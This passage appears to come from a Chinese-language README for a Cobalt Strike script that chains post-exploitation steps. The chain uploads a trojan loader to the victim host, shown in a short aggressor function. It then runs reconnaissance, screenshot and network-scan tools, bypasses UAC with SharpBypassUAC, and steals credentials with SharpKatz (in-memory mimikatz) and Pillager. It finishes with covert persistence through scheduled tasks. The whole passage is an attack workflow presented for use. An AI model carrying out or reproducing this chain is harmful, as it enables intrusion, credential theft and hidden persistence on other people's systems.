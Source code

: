 **这里用两个场景函数进行编排示例：**

- `NormalUser_Chain` 函数用来编排不需要管理员权限即可执行的操作如信息收集、屏幕截图、上传文件等；
- `OnlyAdmin_Chain` 函数用来编排只有管理员权限才能做的操作比如凭据获取、隐蔽权限维持等。

**其中 `NormalUser_Chain` 执行流程如下：**

1. 上传木马到指定目录：

   ```shell
   sub UP_Loader {
       bcd($1, $LoaderPath);
       blog($1,"\c9开始上传 Loader");
       bupload($1, script_resource("/scripts/".$LoaderName));
       blog($1, "\c8Loader 文件上传完成");
       blog($1, "\c8Loader文件位置：$LoaderFullPath");
   }
   ```

2. 调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot ；

3. 调用 `inlineExecute-Assembly` 函数通过 SharpHostInfo 扫描当前 C 端主机信息。

> ScreenshotBOFPlus 优化了能在无需注入的情况下在 Windows 启动全局缩放时获取完整截图

而 ` BypassUAC` 调用 `inlineExecute-Assembly` 函数执行 SharpBypassUAC 工具通过 `computerdefaults` 技术以及编码后的木马路径进行 UAC 绕过，并上线管理器权限 Session。

**最后 `OnlyAdmin_Chain` 执行流程如下：**

1. 调用 `inlineExecute-Assembly` 函数执行 SharpKatz 工具内存中加载 mimikatz 获取主机凭据；
2. 执行 Pillager BOF 程序不落地的情况下收集主机浏览器、软件、账户凭据等敏感信息；
3. 调用 `inlineExecute-Assembly` 函数执行 SharpSchTask 工具进行隐蔽权限维持。

![image-20240311214005973](image/image-20240311214005973.png)
